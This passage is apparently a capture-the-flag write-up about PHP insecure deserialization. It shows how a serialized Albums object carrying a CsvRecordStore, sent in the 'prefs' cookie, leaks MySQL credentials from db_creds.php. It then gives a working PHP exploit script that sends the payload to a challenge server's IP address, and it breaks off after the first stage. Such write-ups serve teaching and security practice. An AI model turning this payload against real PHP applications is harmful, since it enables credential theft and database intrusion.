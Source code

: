 Although the initialization is the same as the `JsonRecordStore` class, **method `getAllRecords()` is different!**

```php
$data = array_map('str_getcsv', file($this->file));
```

> **`array_map()`** returns an array containing the results of applying the `callback` to the corresponding value of `array` (and `arrays` if more arrays are provided) used as arguments for the callback. The number of parameters that the `callback` function accepts should match the number of arrays passed to **`array_map()`**. (From [https://www.php.net/manual/en/function.array-map.php](https://www.php.net/manual/en/function.array-map.php))
>   
>  `str_getcsv` — Parse a CSV string into an array (From [https://www.php.net/manual/en/function.str-getcsv.php](https://www.php.net/manual/en/function.str-getcsv.php))

**Hence, we can use class `CsvRecordStore` to leak the MySQL configuration!**

## Exploitation

Armed with above information, we need to:

- Leak MySQL configuration via unserializing object instance `Albums()` with object instance `CsvRecordStore("db_creds.php")`. The configuration will be leaked via `var_dump()` when the instance of `prefs` cookie's value is not equal to class `UserPrefs`
- Get the flag via unserializing object instance `Albums()` with object instance `MysqlRecordStore("leaked_host", "leaked_username", "leaked_password", "leaked_database_name", "flag")`

**To do so, I'll write a PHP script:**
```php
<?php
class Albums {
    private $store;

    public function __construct($store) {
        $this->store = $store;
    }
}

class CsvRecordStore
{
    private $file;

    public function __construct($file) {
        $this->file = $file;
    }
}

function sendRequest($serializedObjectInURLEncoding)
{
    $url = "http://34.124.157.94:10555/";
    $cookie = "prefs=$serializedObjectInURLEncoding";
    $options = array(
    'http' => array(
            'header' => "Cookie: $cookie\r\n",
        ),
    );
    $context = stream_context_create($options);
    $response = file_get_contents($url, false, $context);
    echo "[+] Response: \n$response";
}

$leakMySQLConfiguration = new Albums(new CsvRecordStore("db_creds.php"));
$serializedLeakMySQLConfiguration = urlencode(serialize($leakMySQLConfiguration));
echo "[+] Serialized leak MySQL configuration object in URL encoding: $serializedLeakMySQLConfiguration\n";
```